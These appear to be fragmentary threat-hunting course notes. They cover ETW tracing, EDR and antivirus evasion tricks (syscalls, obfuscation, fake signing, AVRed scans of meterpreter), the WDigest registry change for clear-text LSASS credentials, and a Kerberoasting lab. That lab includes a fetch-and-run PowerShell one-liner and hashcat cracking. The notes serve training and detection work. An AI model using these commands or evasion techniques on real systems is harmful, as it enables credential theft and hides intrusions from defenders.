Consumer A consumer is an app that reads a logged trace file (ETL file) or captures events in an active trace session in real time, and processes events. Event Viewer and Resource Monitor are in-box ETW consumer apps.
Windows Performance Analyzer (WPA) in the Windows Performance Toolkit is the recommended consumer process.
To see which ETW providers are running on the system
logman query -ets
logman query providers | select-string "defender"
Notice sysmon, Windows Defender...
logman query providers Microsoft-Windows-Kernel-Process
| Provider | GUID |
|---|---|
| Microsoft-Windows-Kernel-Process | {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} |
logman start mysession -p {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} -o mytest.etl -ets
logman start mysession -p Microsoft-Windows-Kernel-Process -o mytest.etl -ets
logman stop mysession -ets
tracerpt mytest.etl
https://github.com/Microsoft/perfview/releases
logman create trace MyETWSession -p "Microsoft-Windows-Kernel-Process" 0x8 -o "C:\temp\kernel-process.etl" -ets
.\filebeat.exe -e -c filebeat.yml -d "*"
logman start Microsoft-Windows-Kernel-Memory -p Microsoft-Windows-Kernel-Memory 0xffffffffffffffff win:informational -ets
logman stop Microsoft-Windows-Kernel-Memory -ets
tracerpt .\Microsoft-Windows-Kernel-Memory.etl -o Microsoft-Windows-Kernel-Memory.evtx -of evtx -lr
Microsoft-Windows-DotNETRuntime Microsoft-Windows-Threat-Intelligence
Provider GUID
Microsoft-Windows-Threat-Intelligence {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}
| Value | Keyword | Description |
|---|---|---|
| 0x0000000000000001 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL | Allocates virtual memory in the local process. |
| 0x0000000000000002 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL_KERNEL_CALLER | Allocates virtual memory in the local process, called from kernel mode. |
| 0x0000000000000004 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE | Allocates virtual memory in a remote process. |
| 0x0000000000000008 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE_KERNEL_CALLER | Allocates virtual memory in a remote process, called from kernel mode. |
| 0x0000000000000010 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL | Changes the protection on a region of virtual memory in the local process. |
| 0x0000000000000020 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL_KERNEL_CALLER | Changes the protection on a region of virtual memory in the local process, called from kernel mode. |
| 0x0000000000000040 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE | Changes the protection on a region of virtual memory in a remote process. |
| 0x0000000000000080 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE_KERNEL_CALLER | Changes the protection on a region of virtual memory in a remote process, called from kernel mode. |
| 0x0000000000000100 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL | Maps a view of a file mapping into the address space of the local process. |
| 0x0000000000000200 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL_KERNEL_CALLER | Maps a view of a file mapping into the address space of the local process, called from kernel mode. |
| 0x0000000000000400 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE | Maps a view of a file mapping into the address space of a remote process. |
| 0x0000000000000800 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE_KERNEL_CALLER | Maps a view of a file mapping into the address space of a remote process, called from kernel mode. |
| 0x0000000000001000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE | Queues an asynchronous procedure call (APC) to a thread in a remote process. |
| 0x0000000000002000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE_KERNEL_CALLER | Queues an asynchronous procedure call (APC) to a thread in a remote process, called from kernel mode. |
| 0x0000000000004000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE | Sets the context of a thread in a remote process. |
| 0x0000000000008000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE_KERNEL_CALLER | Sets the context of a thread in a remote process, called from kernel mode. |
| 0x0000000000010000 | KERNEL_THREATINT_KEYWORD_READVM_LOCAL | Reads virtual memory in the local process. |
| 0x0000000000020000 | KERNEL_THREATINT_KEYWORD_READVM_REMOTE | Reads virtual memory in a remote process. |
| 0x0000000000040000 | KERNEL_THREATINT_KEYWORD_WRITEVM_LOCAL | Writes to virtual memory in the local process. |
| 0x0000000000080000 | KERNEL_THREATINT_KEYWORD_WRITEVM_REMOTE | Writes to virtual memory in a remote process. |
| 0x0000000000100000 | KERNEL_THREATINT_KEYWORD_SUSPEND_THREAD | Suspends a thread. |
| 0x0000000000200000 | KERNEL_THREATINT_KEYWORD_RESUME_THREAD | Resumes a suspended thread. |
| 0x0000000000400000 | KERNEL_THREATINT_KEYWORD_SUSPEND_PROCESS | Suspends all threads in a process. |
| 0x0000000000800000 | KERNEL_THREATINT_KEYWORD_RESUME_PROCESS | Resumes all threads in a suspended process. |
| 0x0000000001000000 | KERNEL_THREATINT_KEYWORD_FREEZE_PROCESS | Freezes a process, preventing it from executing. |
| 0x0000000002000000 | KERNEL_THREATINT_KEYWORD_THAW_PROCESS | Thaws a frozen process, allowing it to execute. |
| 0x0000000004000000 | KERNEL_THREATINT_KEYWORD_CONTEXT_PARSE | Parses the context of a process or thread. |
| 0x0000000008000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_VAD_PROBE | Probes the virtual address descriptor (VAD) for an execution address. |
| 0x0000000010000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_MMF_NAME_PROBE | Probes the memory-mapped file (MMF) name for an execution address. |
| 0x0000000020000000 | KERNEL_THREATINT_KEYWORD_READWRITEVM_NO_SIGNATURE_RESTRICTION | Reads or writes virtual memory without signature restrictions. |
| 0x0000000040000000 | KERNEL_THREATINT_KEYWORD_DRIVER_EVENTS | Logs events related to kernel-mode drivers. |
| 0x0000000080000000 | KERNEL_THREATINT_KEYWORD_DEVICE_EVENTS | Logs events related to device operations. |
| 0x8000000000000000 | Microsoft-Windows-Threat-Intelligence/Analytic | Logs analytic events for threat intelligence. |
| Value | Level | Description |
|---|---|---|
| 0x04 | win:Informational | Information |
| PID | Image |
|---|---|
| 0x00000000 |
https://github.com/Lsecqt-Sponsors/Haunt_Agent/blob/main/Payload_Type/haunt/haunt/agent_code/etw.ps1 https://github.com/MHaggis/PowerShell-Hunter
SYSCALLS (Kernel mode)
https://github.com/joshfinley/SyscallDumper
https://passthehashbrowns.github.io/hiding-your-syscalls
https://github.com/fin3ss3g0d/HookFinder
PS C:\git\EDRs> .\hook_finder64.exe C:\windows\system32\ntdll.dll
https://www.secunnix.com/en/blog/cat-and-mouse-game
A. Direct Syscall
In its simplest form, the direct system calls technique can be said to implement the APIs to be used in the malware with assembly commands in the code instead of getting them through ntdll.dll, in order to prevent EDR sensors from hooking.
In this way, the program does not refer to ntdll.dll and uses the APIs it needs directly. Since ntdll.dll is not called, the EDR sensors will be blind because they do not inject themselves into the process. There are many PoCs for this technique, For example, Hells Gate, Halo's Gate, Syswhispers2 and 3 are successful studies that prove the application of direct syscall.

Unfortunately, this method, which was quite effective at first, can be detected by some EDR solutions through kernel callbacks, since the system calls are executed outside of ntdll.dll and the RET command is located directly in the memory area of the program to which the direct syscall is applied. Because normal programs do not behave like this. As you can see, it comes back to what we explained under the heading of normalization and reputation.
B. Indirect Syscall
Indirect system calls are similar to the direct system calls technique in terms of their working logic. But beyond that, they have a few minor differences in the processing of system calls.
In the direct syscall technique, while the process belonging to ntdll.dll is completely outside the event and the RET commands are in the program itself instead of this DLL, in the case of indirect syscall, since the calls are executed through ntdll.dll, they are perceived as normal by EDR processes. Okay. So, if you ask how EDR cannot perform the hook operation, the logic is actually simple. During the execution of the malicious code, the JMP command goes to the block where the system call is located, instead of pointing to the entry point (starting point) of ntdll.dll.
Thus, a device unaware of ntdll.dll It is a little more difficult to detect since there is no execution process.

Although both techniques still work, the indirect syscall method can help develop less detectable malware. Note that these are methods to avoid user mode hooking. If you are dealing with a security solution that does kernel mode hooking, this techniques can be identified. In addition, the Event Tracing for Windows (ETW) structure offered by Microsoft for Windows systems can be used by some EDRs to control the stack structures where calls are made. If you want to see a very clean implementation of both techniques, read the article below. We can recommend it.
https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls https://github.com/Maldev-Academy/HellHall
Chapter 1.3 - Evasion
Tips and tricks
strings - HxD/xxd entropy
IAT & String obfuscation
Build as release and disable optimization (debug includes symbols)
Fake Certs
Add face code-signing certs https://github.com/jfmaes/LazySign
compilation meta data
Renaming functions
[DllImport("kernel32.dll", EntryPoint ="VirtualAlloc", SetLastError = false, ExactSpelling = true)]
private static extern IntPtr VirtualAlloc(
IntPtr lpStartAddr,
UInt32 size,
UInt32 flAllocationType,
UInt32 flProtect);
Change to :
[DllImport("kernel32.dll", EntryPoint ="VirtualAlloc", SetLastError = false, ExactSpelling = true)]
private static extern IntPtr MemReserve(
IntPtr lpStartAddr,
UInt32 size,
UInt32 flAllocationType,
UInt32 flProtect);
Entrypoint -> Specific entrypoint in kernel32.dll basically creating an alias to the function Add some options to evade AV -> SetLastError, ExactSpelling
Base64 Encoding
XOR Encoding
Array Reversing
Syscalls
Unhooking
Litterbox / Avred (Forensics)
AVRed-Server
On windows:
cd c:\git
git clone hhttps://github.com/dobin/avred-server.git
cd avred-server
pip install -r requirements.txt
Edit the config.yaml file
{
"bind_ip": "0.0.0.",
"port": 8001,
"engine": "Amsi"
}

On your windows machine browse to the linke:

OPTIONALLY - Install as service with NSSM
https://nssm.cc/ci/nssm-2.24-103-gdee49fc.zip
where python.exe
C:\Users\threatadmin\AppData\Local\Programs\Python\Python312\python.exe
C:\Users\threatadmin\AppData\Local\Microsoft\WindowsApps\python.exe
nssm install AvredServer"C:\\Users\\threatadmin\\AppData\\Local\\Programs\\Python\\Python312\\python.exe" "C:\\git\\avred-server\\avred_server.py"
nssm set AvredTest AppDirectory "C:\\git\\avred-server\\"
nssm.exe start AvredServer
Download and install Radare2 on windows and add it to the path
cd git
git clone https://github.com/dobin/avred.git
pip install -R requirements.txt
Edit the config.yaml
server:
Amsi: "http://10.0.0.8:8001/"
password: ""
hashCache: True
WebMaxFileSizeMb: 50
run a scan from commandline
python3 avred.py -f app/upload/meterpreter.exe
Run the (GUI) server (this is running on your KALI machine)
python3 avredweb.py
Browse to the server GUI (from windows or Kali) http:\10.0.0.7:5000
Install as a service with NSSM
On Kali
- Install Radare
sudo apt install radare2
- Install AVRed
cd ~/Desktop
git clone https://github.com/dobin/avred.git
sudo chown -R Threatadmin:Threatadmin avred
edit the config.yaml and point it to the windows avred_server
cd ~/Desktop/avred
nano config.yaml
server:
Amsi: "http://10.0.0.8:8001/"
password: ""
hashCache: True
WebMaxFileSizeMb: 50
build AVRed
pip install setuptools
udo apt-get install python3-magic
pip3 install --upgrade Flask-SQLAlchemy --break-system-ackages
pip3 install --upgrade -r requirements.txt --break-system-packages
run a scan from commandline
python3 avred.py -f app/upload/meterpreter.exe
Run the (GUI) server (this is running on your KALI machine)
python3 avredweb.py
Browse to the server GUI (from windows or Kali) http:\10.0.0.7:5000
Chapter 2 - Credential Attacks
- Harvesting Credentials from Memory
- Kerberoasting
- PassWord Spraying
- NTLM Relaying
Chapter 0.0 - LSASS Dumping
One of the most common techniques used by adversaries is LSASS dumping, blahblah
Local Security Authority (LSA) is protected subsystem that authenticates and logs users onto the local system. In previous versions of Windows (before Windows 10 and Server 2016), LSA stored secrets used by the operating system in its process memory. As discussed above, when hackers compromise operating system, they can get access to process memory leading to credential theft and lateral theft.
Mitre: T1003.001 - "OS Credential Dumping: LSASS Memory"
Credential dumping is the process of obtaining account login and password information, normally in the form of a hash or a clear text password, from the operating system and software. Credentials can then be used to perform Lateral Movement and access restricted information.


CredentialGuard
Credential guard uses virtualization-based security and creates a new component LSA Isolated to store all secrets that the operating system cannot access directly so that even if hackers compromise the system, they cannot do credential theft. Once Credential guard is configured, LSA process (LSASS) runs in the operating system, and additional instance of LSA (LSAIso – which stands for LSA Isolated) is created. LSA connects to LSA Isolated using RPC. This is to allow all of the standard calls to LSA to still succeed, offering backwards compatibility for services or applications that require direct communication with LSA.

CredentialGuard - things to know
Credential Guard requirement
Operating System – Windows 10 Enterprise, Windows 10 Education, Windows Server 2016, and Windows 10 IoT Enterprise.
Credential Guard is supported for Hyper-V virtual machine.
Enabling Credential Guard on domain controllers is not supported.
Mimikatz/SharpKatz
Most heavily signatured binary in the world.
https://github.com/gentilkiwi/

LSASS [Memory] : The Local Security Authority Subsystem Service (LSASS) handles the enforcement of security policy in a Windows host. In Windows environments from 2000 to Server 2008 the memory of the LSASS process was storing passwords in clear-text to support WDigest and SSP authentication.
Credentials are stored in LSASS when:
- a user logs on locally to the system
- you use runas and provide credentials
- an RDP connection is established
Microsoft from Windows 8.1 and Windows Server 2012 enhanced security by preventing LSASS from storing passwords in clear-text. However in a system that has been already compromised with elevated credentials a minor registry modification can instruct LSASS process to store clear-text passwords in its memory in the next login of the user

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 00000001 /f
Don't forget to log out and in again.

If you now run Mimikatz.exe, you'll see clear-text credentials in memory again. Even on Windows 10 - maybe that's a registry key we want to keep an eye on with Sysmon ;-) ?

SHARPKATZ
.net implementation of Mimikatz.

strings lazysign yara threatcheck (clamav/MS Defender) folder exceptions (AMSI?) KleenScan IAT (pebear?) DNSpy netpeek
Hexview/Visual Studio
NativeDump
Chapter 2.1 - Memory
Chapter 2.2 - Kerberoasting
So why is Kerberoasting so interesting :
- can be performed from any domain joined machine.
- user needs no special privileges to request a service ticket - ANY authenticated user can do this.
- The target system doesn't even need to be available or even exist anymore, if the SPN (service account that exists is enough).
- Very hard to spot as this blends in with other service ticket requests.
- Cracking the ticket happens off-line.
Here's the gist of it:
Part of a TGS requested for any SPN, is encrypted with the NTLM hash of that service account’s plaintext password, any user can request these TGS tickets and then crack hash of the service account offline, without the risk of account lockout!
HIGH LEVEL OVERVIEW OF KERBEROS


Kerberoasting mitigations: The best way to prevent adversaries from cracking kerberos tickets is by using very long and complex passwords. Service Accounts should have a minimum of 25 characters, make sure to frequently rotate the passwords and adhere to the least privilege principle when assigning rights to the account (i.e. Don't add the account to Domain Admins just because it's easy). You can also consider using Group Managed Service Accounts (GSMA) or another third-party product such as a password vault.
The table below shows you the average time it would take to brute-force a password, keep in mind these numbers only reflect hard brute forcing, so not using password dictionaries or rainbox tables.

A Few useful CLI commands:
| command | Details |
|---|---|
| net user SVC_SQL /domain | Query DC for user details. |
| net user SVC_SQL Password123! | Set the password of a domain user to Password123. |
| net user /add /domain /active:yes SVC_SQL Password123! | Add a user to the domain, enable the account and set the password. |
| net user SVC_SQL /domain /active:no | Disable (or enable) a domain account |
| net group "domain admins" SVC_SQL /ADD /DOMAIN | Add account to "Domain Admins" (or any other group). |
| setspn -T acme -Q */* | Enumerate all Service Principal Names (SPN), to find service accounts. |
| setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql | Create an SPN for an account. |
And the same in POWERSHELL:
| command | Details |
|---|---|
| $secpasswd = ConvertTo-SecureString -String "Password123" -AsPlainText -Force | Put the password in a variable. |
| New-ADuser -Name 'SVC_SQL' -GivenName 'SVC' -Surname 'SQL' -DisplayName 'SVC_SQL' -AccountPassword $secpasswd -enabled 1 | Add a user to the domain, enable the account and set the password. |
So now let's set up our lab environment by creating a kerberoastable account that has a weak password.
First of all open a new command prompt and let's make sure we have domain admin privileges, needed for creating an account in the domain. The password for DA_student = student.
runas /user:DA_student@acme.local cmd.exe
Now we are running a command prompt under DA_student account.
net user /add /domain /active:yes SVC_SQL Password123!
This will create a new user, activates the account and sets the password to "Password123!".
setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql
The setspn -A command will set up the SPN for the service account, in this case for a service on the domain controller (dc.acme.local) on port 12345.
Let's check if the SPN was correctly registered:
setspn -T acme -Q */*

KERBEROASTING IN ACTION
- source: GetUserSPNs.ps1 - link
Let's see which SPN's exist and to which groups they belong, let try to get some parent process activity going. Open a command prompt:
powershell.exe -NoP -NonI -Exec Bypass -command "c:\labs\4_KERBEROAST\GetUserSPNs.ps1"

Now let's request a ticket for those SPN's, by running the one-liner below you're again doing the attack in a file-less manner by downloading the Invoke-Kerberoast powershell script directly into the memory of powershell.exe:
- source: Invoke-Kerberoast.ps1 - link
Open a powershell prompt (as Administrator):
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1");Invoke-Kerberoast

Let's run it locally and save the hashes, this will avoid copy/paste errors, open a powershell prompt:
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1');
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast

So by default this will enumerate amd rquest tickets for ALL SPN's on a domain, this of course is suspicious as a user would never to request all those tickets at the same time. A more stealthy adversary will first do his recon (GetUserSPN's for example) and see which service accounts might prove juicy targets, and then just request a single SPN:
In the SAME powershell prompt:
invoke-kerberoast -Identity SVC_sql
Invoke-Kerberoast's default output is for John (the password cracker installed by default on Kali), you need to change the output format to HashCat in order to crack the hashes with hashcat.
On your Windows 10 machine use WinSCP to transfer hashes.kerberoast to your Ubuntu machine under the path "/opt/kerberos/" :
Or you can use SCP to copy the file over:
scp Top1000.txt root@192.168.18.204:/opt/kerberos/Top1000.txt
IMPORTANT: If you want to run this attack multiple times, don't forget to purge your Kerberos tickets. Kerberos Tickets are cached for SSO purposes, so if you run the Invoke-Kerberoast script multplie times, your client will not request a new TGS from the DC when it still has one in it's cach.
You can view and clear the cache with these commands:
klist
klist purge


CRACKING HASHES USING HASHCAT
On your Ubuntu Machine we're going to use hashcat to crack the hashes
First let's install hashcat
sudo apt update
apt install hashcat
cd /opt/kerberos
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords.txt --potfile-disable -o cracked.txt
To clear the cache:
hashcat --remove hashes.kerberoast
To clear the potfile
sudo rm ~/.hashcat/hashcat.potfile
Chapter 2.3 - Spraying
Chapter 2.4 - Relaying
Chapter 2.5 - Golden Ticket
Chapter 2.6 - DC Sync
Chapter 2.7 - Pass the Hash
Chapter 2.8 - Evil-WinRM
Windows Remote Management (WinRM) is highlighted as a protocol by Microsoft that enables the remote management of Windows systems through HTTP(S), leveraging SOAP in the process. It's fundamentally powered by WMI, presenting itself as an HTTP-based interface for WMI operations.
The presence of WinRM on a machine allows for straightforward remote administration via PowerShell, akin to how SSH works for other operating systems. To determine if WinRM is operational, checking for the opening of specific ports is recommended:
5985/tcp (HTTP) and 5986/tcp (HTTPS)
Initiating a WinRM Session
To configure PowerShell for WinRM, Microsoft's Enable-PSRemoting cmdlet comes into play, setting up the computer to accept remote PowerShell commands. With elevated PowerShell access, the following commands can be executed to enable this functionality and designate any host as trusted:
Enable-PSRemoting -Force 1
Set-Item wsman:\localhost\client\trustedhosts *
This approach involves adding a wildcard to the trustedhosts configuration, a step that requires cautious consideration due to its implications. It's also noted that altering the network type from "Public" to "Work" might be necessary on the attacker's machine.
Moreover, WinRM can be activated remotely using the wmic command, demonstrated as follows:
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
This method allows for the remote setup of WinRM, enhancing the flexibility in managing Windows machines from afar.
Test if configured
To verify the setup of your attack machine, the Test-WSMan command is utilized to check if the target has WinRM configured properly. By executing this command, you should expect to receive details concerning the protocol version and wsmid, indicating successful configuration. Below are examples demonstrating the expected output for a configured target versus an unconfigured one:
For a target that is properly configured, the output will look similar to this:
Test-WSMan <target-ip>
The response should contain information about the protocol version and wsmid, signifying that WinRM is set up correctly.

From your Kali Linux you can simply use NMAP:
nmap -p 5985,5986 10.0.0.5
https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm
[book]
title = "My Awesome Book"
[output.wordcount]
[output.html]
TODOs:
TODO: Important thing to doTODO: Less important thing to doDONE: Breath deeply and improve karma
CHAT
Please insrall DISCORD on your machine - we'll be using discord for sharing links, documents, chatting, questions and banter. At the beginning of the class you'll receive an invite to join the Threat Hunting Academy channel.
ACCESS to the lab:
Students get access to a central GUACAMOLE server, from there they can RDP into their Windows 10 machine and use SSH (native ssh in WIN10 or putty) to their Kali machine.
The guacamole server is : GUACAMOLE
Credentials are : studentXX/WEWILLTELLYOU (where XX is a number from 01 to 15)
RDP credentials are : studentXX/WEWILLTELLYOU (where XX is a number from 01 to 15)
https://guacamole.th.denarm.be/